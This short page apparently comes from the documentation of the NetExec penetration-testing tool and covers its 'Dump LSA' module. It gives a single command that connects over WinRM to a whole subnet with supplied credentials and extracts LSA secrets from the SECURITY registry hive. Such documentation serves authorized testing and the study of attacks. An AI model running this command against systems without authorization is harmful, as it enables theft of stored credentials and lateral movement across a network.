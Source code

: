# Dump LSA

### Dump LSA secrets 
Extracts and downloads SECURITY registry hive, and uses secretsdump.py methods locally to dump secrets

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
nxc winrm 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa
```

